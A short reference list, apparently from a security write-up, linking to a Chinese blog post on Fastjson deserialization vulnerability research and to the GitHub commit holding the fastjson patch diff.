* [Fastjson反序列化漏洞研究](http://www.cnblogs.com/mrchang/p/6789060.html "http://www.cnblogs.com/mrchang/p/6789060.html")
* [fastjson 补丁diff](https://github.com/alibaba/fastjson/commit/d52085ef54b32dfd963186e583cbcdfff5d101b5 "https://github.com/alibaba/fastjson/commit/d52085ef54b32dfd963186e583cbcdfff5d101b5")
